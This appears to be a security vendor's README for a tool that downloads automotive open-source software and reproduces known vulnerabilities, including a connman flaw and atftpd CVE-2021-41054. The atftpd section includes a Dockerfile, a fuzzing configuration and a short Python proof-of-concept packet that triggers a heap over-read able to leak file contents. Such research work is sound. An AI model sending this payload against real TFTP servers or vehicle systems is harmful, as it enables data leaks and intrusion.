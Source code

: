 # Download automotive OSS

This is a simple script to download OSS from various automotive vendors.
Vendors must provide the OSS software in order to comply with their OSS license
obligations. 

Obligatory note: the presence of a vulnerable OSS version from a vendor does
not necessarily mean that OSS version is still running on automobiles. You will
need to determine that for yourself.

Once you've downloaded the files, you will need to extract them manually.  Be
warned this can create a lot of data -- 35GB on my system.  once you've
extracted, you can start playing around with the software to find new
vulnerabilities and to reproduce 1-days. 

Example use cases below.

## connman (aka the Tesla Hack) CVE-2021-26676

CVSS Score: 9.8

In 2021 security researchers Ralf-Philipp Weinmann and Benedikt Schmotzle [exploited](https://kunnamon.io/tbone/) a Tesla using a zero day in `connman` found with fuzzing. `connman` is an open source network manager that provides WIFI and bluetooth support, and versions up through 1.39 are vulenrable ([CVE-2021-26676](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26676)).

![Tesla Drone Hack](./media/drone_hacks_tesla_and_opens_its_doors.gif)

Credit:
[youtube](https://www.youtube.com/watch?v=QIBvJk-eT5k&ab_channel=TorqueNews))

The [connman](./connman) directory shows how to reproduce this. 

### Mayhem Analysis

## atftpd CVE-2021-41054

CVSS Score: 7.5 (High)

`aftptd` ([homepage](https://sourceforge.net/projects/atftp/)) is an open source TFTP daemon, and versions through 0.7.4 are vulnerable to buffer overflow [CVE-2021-41054](https://nvd.nist.gov/vuln/detail/CVE-2021-41054). The vulnerability was found by Mayhem on August 4, 2021 while analyzing `atftpd` found in OSS automotive software, and then again in September 2021 independently by [Andreas Mundt](https://sourceforge.net/p/atftp/code/ci/d255bf90834fb45be52decf9bc0b4fb46c90f205/).

### Mayhem Analysis

The directory [atftpd-cve-2021-41054](./atftpd-cve-2021-41054/) has all the information you need to reproduce the vulnerability and create a POC exploit yourself. First, create a docker image yourself or use our pre-built image on Dockerhub at `forallsecure/atftpd-cve-2021-41054`.

```
  FROM debian:bullseye-slim
  RUN apt-get update && apt-get install -y build-essential libc6-dbg
  WORKDIR /build/atftp-0.7.1/
  COPY . .
  RUN   ./configure --prefix=/usr --disable-dependency-tracking --disable-libpcre --disable-libreadline --enable-libwrap && \
    make 'CFLAGS=-g -DHAVE_ARGZ -fgnu89-inline' && \
    make install && \
    mkdir -p /srv/tftp
  CMD "/usr/sbin/atftpd --daemon --no-fork /srv/tftp/"
```

Second, run Mayhem using this [Mayhemfile](./atftpd-cve-2021-41054/Mayhemfile). In this case, we tell Mayhem to analyze the server on UDP port 8069. We also enable the more sensitive analysis with the `advanced_triage` flag. While this flag does add another step in analysis, it also means Mayhem finds the vulnerability much quicker.

```
project: atftpd
target: atftpd
image: forallsecure/atftpd-cve-2021-41054:latest
advanced_triage: true

cmds:
- cmd: /usr/sbin/atftpd --no-fork --daemon --port 8069  /srv/tftp/
  network:
     client: false
     timeout: 10.0
     url: udp://localhost:8069
```

We initially found the zero day in about 2 minutes, 47 seconds with `advanced_triage` enabled, and 12 wall clock hours (about 56 multi-core CPU hours) with `advanced_triage` disabled. If you're running this yourself, expect it to take a few minutes to find the initial first test case. Remember: we're not giving it a set of initial test vectors, so Mayhem has to pull everything out of thin air.

### Technical details

The function `tftp_send_oack` calculates a buffer length incorrectly, which is then passed to `Strncpy`. When the buffer length is too small, the resulting calculation is a large unsigned int into a heap buffer.

- It's trivial for an unauthenticated user to use this for a heartbleed-style information leak without crashing the program. You can even leak file contents!
- In some circumstances, it may be possible to do a remote control flow hijack.
- The fix applied in commit d255bf9 does not change `tftp_send_oack`, but instead validates that calls to it will never have buffer sizes that are too small.

### Proof of concept

Mayhem creates a POC, which you can download via the UI or CLI. In addition, here is a short python script that demonstrates the problem:

```python
blksize = 18
password = b"AAABBBCCCDDDEEEFFFGGGHHHIIIJJJKKKLLLMMMNNNOOOPPP"
filename = b"testfile"

msg = ( b"\x00\x01" # read request
+ filename + b"\x00"
+ b"octet\x00" # mode
+ b"blksize\x00" + str(blksize).encode('ascii') + b"\x00"
+ b"password\x00" + password + b"\x00"
)

import socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(msg, ("192.168.151.128", 1234))
print(repr(sock.recvfrom(1024)))
```

## Other vulnerabilities

Note that all the above are also likely vulnerable to other vulnerabilities found in Mayhem, including:

- uboot CVE-2019-13103, CVE-2019-13104, CVE-2019-13105, CVE-2019-13106 (see https://github.com/ForAllSecure/VulnerabilitiesLab/tree/master/uboot-cve-2019-13103-13106). u-boot is widely used in automotive, including many (and possible all) of the images above. The above vulnerability would allow attackers to gain full root to an ECU during boot.
- GNU libm [CVE-2020-10029](https://github.com/ForAllSecure/VulnerabilitiesLab/tree/master/libm-cve-2020-10029). libm is distributed with glibc, which is necessary to run virtually anything on Linux. There is a stack-based buffer overflow in trigonometric functions like `sin` and `cos` when operating on double-precision floating point numbers.

(Note this repo is for illustrative purposes only, and is not a complete list of vulnerable automobile software versions or vulnerabilities in automobiles.)


